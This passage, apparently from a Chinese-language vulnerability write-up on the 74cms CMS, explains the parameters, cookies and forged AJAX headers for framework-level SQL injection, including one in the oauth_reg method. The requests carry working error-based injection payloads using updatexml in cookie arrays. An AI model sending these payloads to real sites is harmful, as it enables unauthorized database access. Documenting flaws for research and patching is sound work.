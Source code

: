 
这里我要大概讲一下参数的问题

```html
post: 
reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:
members_uc_info[reg_type]=1;         // 必须为1 满足流程需要
members_uc_info[utype]=2;         // 必须为2 满足流程需要
members_uc_info[mobile][0]=match;    // 框架漏洞利用
members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

headers:  // 伪造ajax操作
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest
```

## 0x07 74cms独有框架漏洞第四处

文件：74cms\upload\Application\Home\Controller\MembersController.class.php

方法：oauth_reg (

是否需登录：需要

登录权限：普通用户/企业用户都可

```html
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;
```

![image](images/img70.png)
